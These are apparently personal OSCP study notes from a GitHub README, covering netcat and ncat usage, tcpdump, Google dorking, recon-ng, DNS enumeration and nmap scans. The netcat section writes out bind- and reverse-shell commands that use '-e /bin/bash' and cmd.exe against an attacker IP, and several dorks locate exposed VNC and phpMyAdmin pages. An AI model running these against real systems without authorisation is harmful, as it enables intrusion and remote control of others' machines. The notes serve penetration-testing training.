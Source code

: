 # OSCP
Summary of the OSCP course material.
See "OSCP-Cheatsheet" for lab/exam specific cheatsheet.

# Index

- [Introduction](#introduction) 

# Content

### ============================================================
### Introduction
### ============================================================


### ============================================================
### Essential Tools
### ============================================================

**Netcat**  
Basics
```bash
nc -nlvp [port]          # set up listener
nc -nv [IP] [port]       # banner grabbing OR connect to remote port
```
File Transfer
```bash
nc -nlvp [port] > incoming.exe          # VIC: set up listener, direct data to incoming.exe
nc -nv [IP] [port] < /path/to/wget.exe  # ATT: push wget.exe file to VIC
```
Bind Shell: bind executable (e.g. cmd.exe) to a local port (typically victim machine)
```bash
nc -nlvp [port] -e cmd.exe  # VIC: set up listener + bind cmd.exe to local port
nc -nv [VIC IP] [port]   # ATT: attacker connects and is presented with cmd prompt
```
Reverse Shell: victim box connect to attacker box
```bash
nc -nvlp [port]                       # ATT: attacker set up listener
nc -nv [ATT IP] [port] -e /bin/bash   # VIC: attacker sends reverse shell to their box
```

**Ncat**  
Ncat is an improved version of the Netcat tool, with SSL encryption + ability to whitelist access to specific IP's.

Secure Bind Shell:
```bash
ncat -lvp 4444 -e cmd.exe --allow [IP] --ssl   # Box A: set up listener, allow on connections from only IP, SSL-encrypted.
ncat -v 10.11.14.143 4444 --ssl                # Box B: connect to Box A, SSL-encrypted.
```

**Tcpdump**

Analyse traffic from file (.pcap etc.) + show data in hex and ASCII
```bash
tcpdump -nX -r filename.pcap
```

Analyse and filter traffic:
```bash
tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap   # src filter
tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap   # dest filter
tcpdump -n port 81 -r password_cracking_filtered.pcap                 # port filter
```


### ============================================================
### Passive Info Gathering
### ============================================================

**Google Hacking**

More with Google Hacking Database https://www.exploit-db.com/google-hacking-database/

```bash
site:"microsoft.com" -site:"www.microsoft.com"            # list subdomains of Microsoft.com
site:"microsoft.com" filetype:ppt "penetration testing"   # list .ppt files with term "penetration testing"
intitle:"VNC viewer for Java"                             # list pages with a open VNC access pages
inurl:"/control/userimage.html"                           # list pages which contain file "/control/userimage.html"
inurl:.php? intext:CHARACTER_SETS,COLLATIONS intitle:phpmyadmin # list pages with post-authenticated db admin page.
```

**Recon-ng**

Basic usage:
```bash
recon-ng                                # access recon-ng
use recon/path/to/module                # use module
set SOURCE uber.com                     # set source target
run                                     # run module
```

Some useful modules:
```bash
recon/domains-contacts/whois_pocs       # find employee names and email addresses
recon/domains-vulnerabilies/xssed       # find existing XSS vulnerabilities
recon/domains-hosts/google_site_web     # find subdomains via. Google search
```

### ============================================================
### Active Info Gathering
### ============================================================

**DNS Enumeration**

Forward DNS lookup:
```bash
for name in $(cat list.txt); do
    host $name.megacorp.com | grep 'has address' | cut -d" " -f1,4
done
```

Reverse DNS lookup:
```bash
for ip in $(seq 72 91); do
    host 38.100.193.$ip | grep 'megacorp' | cut -d" " -f1,5
done
```

Zone transfers: "database replication" between related DNS servers / copy the list of all dns names configured for one zone to a secondary DNS server
```bash
# For each nameserver of an input domain, perform a zone transfer
for server in $(host -t ns $1 | cut -d" " -f4); do
    host -l $1 server | grep 'has address'
done
```

**Port Scanning**

Three types of scans:
1. TCP Connect: attempts to complete a 3-way handshake with the target.
2. Stealth/SYN: sending only SYN packets without completing the 3-way handshake.
3. UDP: empty UDP packet is sent to the target. No response = open. ICMP port unreachable response = closed.

Port scanning pitfalls:
* UDP scanning is unreliable. Firewalls/routers drop ICMP packets, leading to false positives saying UDP port is OPEN.
* Don't forget to scan for UDP services.

Nmap scanning:
```bash
nmap -sn 10.11.1.1-254                   # network sweep: identify live hosts in a network
nmap -p 80 10.11.1.1-254                 # network sweep: identify hosts with OPEN port 80
nmap -sT -A --top-ports=20 10.11.1.1-254 # network sweep: identify hosts with OPEN top 20 ports

nmap -O 10.0.0.19                        # OS fingerprinting
nmap -sV -sT 10.0.0.19                   # Service enumeration / banner grabbing

nmap 10.0.0.19 --script smb-os-discovery.nse                # Connect to SMB service on a target + determine OS version
nmap --script=dns-zone-transfer -p 53 ns2.megacorpone.com   # Perform a DNS zone transfer
```






